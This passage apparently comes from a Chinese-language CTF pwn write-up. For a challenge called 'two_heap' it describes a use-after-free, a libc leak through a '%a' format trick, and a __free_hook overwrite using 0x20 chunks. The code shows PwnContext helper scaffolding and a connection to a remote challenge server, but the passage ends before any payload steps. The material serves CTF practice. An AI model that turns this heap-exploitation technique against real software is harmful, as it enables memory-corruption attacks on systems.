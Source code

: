 ```python
            sla('size:',1)
            #ctx.debug()
            irt()
            break
        except KeyboardInterrupt:
            exit()
        except:
            if ctx.io:
                ctx.close()
            pass
```



### two_heap

漏洞点free后指针未清0

%a%a%a%a%a 双精度16字节可以泄露libc，然后利用0x20大小的chunk可以分配四个来攻击free hook即可。

```python
from PwnContext import *
if __name__ == '__main__':
    context.terminal = ['tmux', 'split', '-h']
    #-----function for quick script-----#
    s       = lambda data               :ctx.send(str(data))        #in case that data is a int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    st      = lambda delim,data         :ctx.sendthen(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data))
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    leak    = lambda address, count=0   :ctx.leak(address, count)
    
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))

    debugg = 0
    logg = 0

    ctx.binary = './two_heap'

    #if debugg:
    #	ctx.custom_lib_dir = '/glibc/x64/2.26/lib/'
    #else:
    #	ctx.custom_lib_dir = '/glibc/x64/2.26/lib/'#remote libc
    ctx.remote_libc = './libc-2.26.so'
    ctx.debug_remote_libc = True


    ctx.symbols = {'heap':0x4020}
    #ctx.breakpoints = [0x1234, 0x5678]
    #ctx.debug()

    if debugg:
        rs()
    else:
        ctx.remote = ('47.104.89.129', 10002)
        rs(method = 'remote')

    if logg:
        context.log_level = 'debug'
```